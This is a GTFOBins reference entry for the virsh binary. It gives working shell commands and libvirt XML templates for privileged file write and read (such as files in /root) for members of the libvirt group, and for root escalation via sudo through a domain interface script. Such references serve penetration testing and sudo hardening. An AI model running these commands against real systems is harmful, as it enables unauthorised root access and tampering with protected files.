 # GTFOBin: virsh

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

This requires the user to be in the `libvirt` group to perform privileged file write. If the target directory doesn’t exist, `pool-create-as` must be run with the `--build` option. The destination file ownership and permissions can be set in the XML.

```
LFILE_DIR=/root
LFILE_NAME=file_to_write

echo 'data' > data_to_write

TF=$(mktemp)
cat > $TF <<EOF
<volume type='file'>
  <name>y</name>
  <key>$LFILE_DIR/$LFILE_NAME</key>
  <source>
  </source>
  <capacity unit='bytes'>5</capacity>
  <allocation unit='bytes'>4096</allocation>
  <physical unit='bytes'>5</physical>
  <target>
    <path>$LFILE_DIR/$LFILE_NAME</path>
    <format type='raw'/>
    <permissions>
      <mode>0600</mode>
      <owner>0</owner>
      <group>0</group>
    </permissions>
  </target>
</volume>
EOF

virsh -c qemu:///system pool-create-as x dir --target $LFILE_DIR
virsh -c qemu:///system vol-create --pool x --file $TF
virsh -c qemu:///system vol-upload --pool x $LFILE_DIR/$LFILE_NAME data_to_write
virsh -c qemu:///system pool-destroy x
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

This requires the user to be in the `libvirt` group to perform privileged file read.

```
LFILE_DIR=/root
LFILE_NAME=file_to_read

SPATH=file_to_save

virsh -c qemu:///system pool-create-as x dir --target $LFILE_DIR
virsh -c qemu:///system vol-download --pool x $LFILE_NAME $SPATH
virsh -c qemu:///system pool-destroy x
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
SCRIPT=script_to_run
TF=$(mktemp)
cat > $TF << EOF
<domain type='kvm'>
  <name>x</name>
  <os>
    <type arch='x86_64'>hvm</type>
  </os>
  <memory unit='KiB'>1</memory>
  <devices>
    <interface type='ethernet'>
      <script path='$SCRIPT'/>
    </interface>
  </devices>
</domain>
EOF
sudo virsh -c qemu:///system create $TF
virsh -c qemu:///system destroy x
```